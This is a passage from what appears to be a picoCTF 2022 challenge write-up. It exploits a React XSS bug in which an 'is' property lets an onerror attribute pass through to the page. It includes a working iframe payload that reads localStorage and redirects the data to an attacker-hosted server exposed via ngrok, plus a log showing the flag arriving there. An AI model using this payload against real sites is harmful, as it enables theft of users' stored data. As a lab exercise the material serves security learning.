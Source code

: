 Desperately researching React XSS vulnerabilities, we come across [this article](https://ethanwu.dev/blog/2021/07/14/redpwn-ctf-2021-md-bin/) from a 2021 CTF writeup. It reveals the secret: if your object has an `"is"` property, then react will treat the whole thing as a WebComponent and pass the attributes straight through. Let's try it out: `/drawing/abcd#src=1&onerror=alert(1)&is` (*remember, start with the window small and then resize it so that it's larger*).

**Success** - we are greeted with an `alert` popup! We can now execute javascript on the page. All that's left to do is weaponize this. We'll load up the `drawing` route in a small iframe with our XSS payload in the hash parameters. We'll then resize the iframe to trigger the vulnerability. **All our payload has to do is read from localstorage and send it to our server:**

```html
<html>
<head></head>
<body>
    <iframe id="i" width="300" height="300" src=""></iframe>
    <script>
        var i=document.querySelector("#i");
        setTimeout(()=>{i.width=1000;},1000);
        i.src="http://localhost:4000/drawing/abcd#src=1&onerror=window.location%3d%60" + window.location.origin + "/${localStorage.username}%60&is";
    </script>
</body>
</html>
```

(*Recall, on the actual challenge server you need to target localhost:4000*)

We can now host our payload with a simple http server using `python3 -m http.server` and then make it publicly accessible using `ngrok http 8000`. This will give us an http/https server on a `.ngrok.io` subdomain that we can put into the link-submission form. (I tried using other ports and they were blocked, so I believe the challenge only supports connecting to servers on either port 80 or 443).

```
ngrok by @inconshreveable
Session Status                online
Account                       XXXXXXXXXXXXXXXXXXX (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://8faXXXXXXXXXXXXXXXXX.ngrok.io -> http://localhost:8000
Forwarding                    https://8faXXXXXXXXXXXXXXXXX.ngrok.io -> http://localhost:8000

Connections                   ttl     opn     rt1     rt5     p50     p90
                              2       0       0.03    0.01    0.00    0.00

HTTP Requests
-------------
GET /"picoCTF{===REDACTED===}" 404 File not found
GET /xss.html                              200 OK 
```
{:.contains-term}

As we can see here, the XSS worked, and about 1 second after the request for our xss payload we get another request containing the flag!

Head back to the [picoCTF 2022 Greatest Hits Guide]({% link _reference/hacking-101/picoctf-2022-greatest-hits.md %}) to continue with the next challenge.